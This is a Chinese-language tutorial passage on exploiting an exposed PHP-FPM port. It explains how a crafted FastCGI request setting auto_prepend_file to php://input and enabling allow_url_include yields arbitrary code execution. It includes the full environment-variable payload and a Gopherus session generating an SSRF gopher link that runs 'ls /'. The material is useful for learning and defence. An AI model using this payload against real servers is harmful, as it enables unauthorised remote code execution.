 PHP-FPM未授权访问漏洞也就呼之欲出了。PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。

那么，为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制SCRIPT_FILENAME，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，auto_prepend_file和auto_append_file。

auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。

那么就有趣了，假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项allow_url_include）

那么，我们怎么设置auto_prepend_file的值？

这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

所以，我们最后传入如下环境变量：

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置auto_prepend_file = php://input且allow_url_include = On，然后将我们需要执行的代码放在Body中，即可执行任意代码。

### 利用Gopherus生成payload

```
└─$ ./gopherus.py --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$
                                                                                                                                                         
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/index.php                                                                              
Terminal command to run:  ls /

Your gopher link is ready to do SSRF:                                                                                                                    
                                                                                                                                                         
```